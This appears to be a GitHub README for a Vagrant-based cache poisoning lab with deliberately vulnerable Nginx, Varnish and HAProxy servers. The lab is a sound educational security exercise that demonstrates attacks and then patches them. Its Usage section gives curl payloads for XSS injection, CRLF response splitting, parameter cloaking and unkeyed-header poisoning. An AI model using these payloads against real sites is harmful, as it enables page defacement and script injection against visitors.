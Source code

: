 # Aboiye-DevSecOps-Projects

Documentation for my DevSecOps Projects

## Cache Poisoning Lab

This project is a Vagrant-based local lab designed to explore cache poisoning vulnerabilities, exploit them, and learn how to patch them. It simulates a web application stack with a web server, caching server, load balancer, and attacker machine, providing hands-on experience with cybersecurity concepts like cache key manipulation, HTTP response splitting, and parameter cloaking.

## Project Overview

The lab replicates a realistic web stack to study cache poisoning:

- **Web Server**: Nginx serving static and dynamic content.
- **Caching Server**: Varnish as a reverse proxy with caching capabilities.
- **Load Balancer**: HAProxy distributing traffic.
- **Attacker Machine**: A VM for simulating attacks.
- **Victim Client**: Your host machine to observe the effects.

The setup intentionally introduces vulnerabilities, demonstrates exploitation techniques, and then applies patches to secure the environment.

## Topology

Below is the network topology of the lab:

```mermaid
graph TD
    subgraph Internet[Internet]
        VC[Victim Client<br>Your Host]:::client
        AM[Attacker Machine<br>192.168.50.40]:::attacker
    end
    VC -->|HTTP Requests| LB[Load Balancer Tier<br>HAProxy<br>192.168.50.30]:::loadbalancer
    AM -->|Malicious Requests| LB
    LB --> CS[Caching Tier<br>Varnish<br>192.168.50.20]:::cache
    CS --> WS[Application Tier<br>Nginx Web Server<br>192.168.50.10]:::webserver

    classDef client fill:#f9f,stroke:#333,stroke-width:2px;
    classDef attacker fill:#fdd,stroke:#f00,stroke-width:2px;
    classDef loadbalancer fill:#bbf,stroke:#333,stroke-width:2px;
    classDef cache fill:#bfb,stroke:#333,stroke-width:2px;
    classDef webserver fill:#bfb,stroke:#333,stroke-width:2px;
```

## Prerequisites

Vagrant
VirtualBox (or another Vagrant provider)
Basic knowledge of Linux, networking, and HTTP

## Setup Instructions

Clone the Repository:

```bash
git clone <git@github.com>:Abwonder/Aboiye-DevSecOps-Projects.git
cd cache-poisoning-lab
```

Start the Lab:

```bash
vagrant up
```

This provisions four VMs: web, cache, lb, and attacker.
Access the Components:
    Web Server: 192.168.50.10
    Caching Server: 192.168.50.20
    Load Balancer: 192.168.50.30 (entry point)
    Attacker: 192.168.50.40

Usage
Exploring Vulnerabilities

Cache Key Manipulation:
    From the attacker VM: curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=><script>alert('Hacked')</script>"
    Test as victim: curl <http://192.168.50.30/dynamic.php>
HTTP Response Splitting:
    curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=Alice%0d%0aContent-Length:%200%0d%0a%0d%0a><h1>Defaced!</h1>"
Parameter Cloaking:
    curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=Normal;user=><script>alert('XSS')</script>"
Unkeyed Headers:
    curl -H "Host: example.com" -H "Accept-Encoding: gzip" "<http://192.168.50.30/dynamic.php?user=><h1>Poisoned</h1>"

Patching Vulnerabilities

Re-provision VMs with updated configs:

```bash

vagrant provision web
vagrant provision cache
vagrant provision lb
```

Retest attacks to verify fixes (see configuration details in the Vagrantfile).

Files

Vagrantfile: Defines and provisions the VMs with initial vulnerable configs and patched versions.
README.md: This file.

## Learning Objectives

Understand how caching works in a web stack.
Exploit common cache poisoning techniques.
Implement mitigations like input sanitization, cache key normalization, and header validation.

## Patching Details

Nginx: Sanitizes input with htmlspecialchars and adds Cache-Control: no-store.
Varnish: Keys on headers, skips caching dynamic content, respects backend cache directives.
HAProxy: Rejects malformed headers and rate-limits requests.

Contributing

Feel free to fork this repo, enhance the lab (e.g., add CDN caching), and submit pull requests!
License

MIT License - feel free to use and modify this lab for educational purposes.
